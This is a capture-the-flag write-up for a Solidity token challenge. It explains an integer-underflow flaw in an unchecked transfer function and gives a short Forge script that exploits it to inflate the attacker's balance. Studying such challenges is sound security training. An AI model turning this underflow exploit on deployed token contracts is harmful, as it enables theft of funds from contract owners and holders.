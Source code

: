 # Token   
The challenge description states:
"You are given 20 tokens to start with, and you will beat the level if you somehow manage to get your hands on any additional tokens."

The first thing I noticed was the Solidity version used in the contract:  
`pragma solidity ^0.6.0;`    
   
Additionally, the only public function in the contract lacks proper validations:
```solidity
function transfer(address _to, uint256 _value) public returns (bool) {
        require(balances[msg.sender] - _value >= 0);
        balances[msg.sender] -= _value;
        balances[_to] += _value;
        return true;
    }
```
This function allows us to transfer tokens to any address. It first checks if `balances[msg.sender] - _value` is greater than or equal to 0, then subtracts `_value` from the sender's balance and adds it to the recipient's balance.

The balances are stored in this mapping: 
```solidity
mapping(address => uint256) balances;
```
Here, the vulnerability becomes clear. In Solidity versions below 0.8.0, there is no built-in protection against integer overflows or underflows. This means that if we set `_value` to a number larger than our balance (e.g., 21), the subtraction will underflow, resulting in:  
```solidity
20 - 21 = type(uint256).max
```
This underflow will give us an extremely large balance. However, to ensure we don't end up with the same balance as before, we must set the `_to` address to a different address (not our own).

Since the tokens are mapped to our address, we cannot use another contract to interact with this challenge. Instead, we can use a script to exploit the vulnerability:
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.19;

import {Script} from "forge-std/Script.sol";

contract AttackScript is Script {
    address victim = /* Your instance address */ ;

    function run() public {
        vm.startBroadcast();
        (bool success, ) = victim.call(
            abi.encodeWithSignature("transfer(address,uint256)", address(0), 21)
        );
        vm.stopBroadcast();
    }
}
```
